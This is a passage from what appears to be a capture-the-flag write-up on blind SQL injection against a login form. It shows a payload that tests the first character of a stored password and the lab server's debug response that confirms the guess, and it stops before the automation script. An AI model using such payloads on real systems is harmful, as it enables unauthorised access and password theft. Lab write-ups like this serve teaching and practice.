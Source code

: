 Knowing the typical structure of the flags, I try to see if the injection 
```
' OR SUBSTR((SELECT password FROM users LIMIT 1),1,1) = 'p' --
```
works for "p".

Server response:
```
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '' OR SUBSTR((SELECT password FROM users LIMIT 1),1,1) = 'p' --'"
127.0.0.1 - - [09/Apr/2025 12:27:10] "POST / HTTP/1.1" 302 -
127.0.0.1 - - [09/Apr/2025 12:27:10] "GET / HTTP/1.1" 200 -
```
At this point I just have to write the script that automates the discovery of the other characters.
